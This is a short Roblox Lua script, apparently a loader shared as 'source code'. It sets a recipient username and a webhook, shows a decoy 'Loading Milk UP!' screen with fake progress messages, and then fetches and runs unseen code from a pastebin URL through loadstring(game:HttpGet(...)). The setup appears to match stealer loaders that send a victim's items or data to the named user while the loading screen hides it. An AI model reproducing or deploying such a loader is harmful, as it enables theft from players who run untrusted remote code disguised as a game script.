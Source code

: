 Username = "bigboss7261"
WebHook = "WebHookHere"
 
 
loadingscreen = true -- set this to false and remove _G. stuff to use your own GUI
_G.CustomScriptName = "Loading Milk UP!"
_G.Text1 = "Script Loaded..."
_G.Text2 = "Waiting for Script"
_G.Text3 = "Checking Scripts..."
_G.Text4 = "Starting Scripts..."
loadstring(game:HttpGet("https://pastebin.com/raw/uyUWPGZ6"))()
